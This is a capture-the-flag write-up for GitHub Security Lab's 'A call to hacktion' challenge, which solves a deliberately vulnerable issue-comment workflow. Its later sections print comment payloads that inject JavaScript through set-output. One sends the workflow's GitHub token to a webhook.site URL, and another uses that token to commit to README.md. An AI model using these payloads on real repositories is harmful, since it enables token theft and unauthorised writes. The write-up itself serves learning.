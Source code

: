 ```yaml
---
title: A call to hacktion, a GitHub workflow CTF
subTitle: GitHub Security Lab, Capture The Flag
category: "ctf"
cover: photo-a-call-to-hacktion-cover.jpg
---
```


## Introduction

"A call to hacktion, a GitHub workflow CTF" is a single level challenge based around GitHub Workflow best practices and an interesting vulnerability pattern that GitHub Security teams have seen out in the real world.

To solve the game, you will have to elevate your privileges from read-only to full write access on a designated game repository!

## My Process

Okay, so we know that this challenge resolves around the GitHub Workflow, the vulnerability is probably in the workflow file.

#### Content of **comment-logger.yml**:

```yml
name: log and process issue comments
on:
  issue_comment:
    types: [created]

jobs:
  issue_comment:
    name: log issue comment
    runs-on: ubuntu-latest
    steps:
      - id: comment_log
        name: log issue comment
        uses: actions/github-script@v3
        env:
          COMMENT_BODY: ${{ github.event.comment.body }}
          COMMENT_ID: ${{ github.event.comment.id }}
        with:
          github-token: "deadc0de"
          script: |
            console.log(process.env.COMMENT_BODY)
            return process.env.COMMENT_ID
          result-encoding: string
      - id: comment_process
        name: process comment
        uses: actions/github-script@v3
        timeout-minutes: 1
        if: ${{ steps.comment_log.outputs.COMMENT_ID }}
        with:
          script: |
            const id = ${{ steps.comment_log.outputs.COMMENT_ID }}
            return ""
          result-encoding: string
```

As it was my first time working with GitHub workflow, I needed to understand how GitHub workflow works. I googled the workflow syntax for github actions to understand the workflow configuration. 

Link: https://docs.github.com/en/actions/reference/workflow-syntax-for-github-actions

After reading the syntax, I realised this this workflow will the process describe in the workflow configuration when there is a new comment on an issue. With that knowledge, I figured that I should create a new issue and play around and see the logs on the workflow.

![new-issue](./new-issue.jpeg)

Then I proceed to make a new commnet under the newly created issue, "test issue". I noticed that an action was ran after my comment, so I clicked on the action and tried to see the log.

![github-action-log](./github-action-log.jpeg)

So I realised that my comment is a user input that I can control, which may or may not be the vulnerability. As this is my only lead, I went ahead and googled more GitHub actions workflow releated stuff, and I came across a GitHub Security Lab blog post about untrusted input.

Link: https://securitylab.github.com/research/github-actions-untrusted-input

```yml
- id: comment_log
env:
    COMMENT_BODY: ${{ github.event.comment.body }} // I CAN CONTROL
    COMMENT_ID: ${{ github.event.comment.id }}
    script: |
    console.log(process.env.COMMENT_BODY) // MY INPUT, CAN I INJECT CODE HERE?
    return process.env.COMMENT_ID
    result-encoding: string

- id: comment_process
if: ${{ steps.comment_log.outputs.COMMENT_ID }}
with:
    script: |
    const id = ${{ steps.comment_log.outputs.COMMENT_ID }}
    return ""
    result-encoding: string
```

Looking at the workflow file again, I see that my input (*comment_body*), is flows to `console.log(process.env.COMMENT_BODY)`. My first initial thought is that I could potential inject javascript code here. To test my theory, I tried inputing quotes, `'` and `"` to see if there is any error generated. 

And did it work? Of course that didn't work, it would have been too easy if it did. Afterwards, I thought to try out some of the steps written in the GitHub Security Lab blog post about untrusted input. I tried template injection, but that didn't work as there is no template here.

Sadly, I was stuck here for a long time, just spamming and hoping for an error to pop out. I decided to continue googling GitHub actions/workflow, to see if I could find anything of interest. 

Which somehow, I did. I found out that there is something called "workflow command", not sure what that is, I read the website and noticed that a workflow command was passed in a `console.log`. I tried doing the same thing just to see what will happen.

Link: https://docs.github.com/en/actions/reference/workflow-commands-for-github-actions

My input: `::save-state name=processID::12345`. This workflow command create environment variables named STATE_processID with the value of 12345. I thought that this command could modify the COMMAND_ID, so I replace "processID" with "COMMAND_ID". Spoiler alert, it didn't. Why not? That's because this command created an enviroment variable and prepend "STATE_".

```yml
if: ${{ steps.comment_log.outputs.COMMENT_ID }}
```

Back to the workflow file again, I noticed that if I wanted the next step to run, the commet_log needed to output the COMMENT_ID, right? Note: *Not really, `steps.comment_log.outputs.COMMENT_ID` is actually just the value of the output from the comment_log step.*

With that, I'm going to skip my painstaking redundant effort to try to get "COMMNET_BODY" to be the value of "COMMENT_ID".

Now, another workflow command is `::set-output name=action_fruit::strawberry`. This workflow command set the value output of "action_fruit" to "strawberry". Understanding this command, I tried to set the output value of commnet_log, "COMMNET_ID" to "true" after learning that expression in the `if` statement will be evaluated as an expression. 

My input: `::set-output name=COMMENT_ID::true`. Finally, I started to see progress. Quickly, I know that command injection is possible, as this input is treated as an expression as part of the variable declaration.

```javascript
const id = ${{ steps.comment_log.outputs.COMMENT_ID }}
```

![github-action-log-process](./github-action-log-process.jpeg)

Time to print out the enviroment variables, which contains the GITHUB TOKEN for READ/WRITE access according to the GitHub workflow documentation. My input: `::set-output name=COMMENT_ID::true ;console.log(process.env);`.

![github-action-leak-env](github-action-leak-env.png)

However, the GitHub token is masked, therefore we cannot just see it. Also, later on, I would realised the the token is only valid while the action is being run. Therefore, even if I could copy and token, it would be useless later.

I then used some website to recieve request, thinking that I could append the token as part of the URL, just to validate the token exists. My input: `::set-output name=COMMENT_ID::true ;const execSync = require('child_process').execSync; code = execSync('curl https://webhook.site/REDACTED?token=' + process.env["INPUT_GITHUB-TOKEN"]);`. I did the same for "ACTIONS_RUNTIME_TOKEN".

After verifying that the token exists, all I had to do is to make a request using GitHub API with the token to commit to the "README.md" file. I spent quite a few time researching the API but the solution is below.

## My Solution

``::set-output name=COMMENT_ID::true ;const execSync = require('child_process').execSync; code = execSync(`curl -i --request PUT --url https://api.github.com/repos/${process.env.GITHUB_REPOSITORY}/contents/README.md --header 'authorization: Bearer ${process.env["INPUT_GITHUB-TOKEN"]}' --header 'content-type: application/json' --data '{ "message": "PWNED!!!!", "content": "V2UgYXJlIGluY3JlZGlibHkgc2VjdXJlISBCdXQgaWYgeW91IGRpc2FncmVlLCBwbGVhc2UgZmlsZSBhIFBSIDopCk5PUEUsIEkgRElTQUdSRUVFRSEh", "sha": "959c46eb0fbab9ab5b5bfb279ab6d70f720d1207" }' --fail`);``

![pwned](./pwned.jpeg)

## Results

GitHub Capture the Flag results: https://github.blog/2021-03-22-github-ctf-results/

Note: *The results website shows a different step taken to solve this challenge, go ahead and read it as I think it's nicer and cleaner solution overall compared to mine.*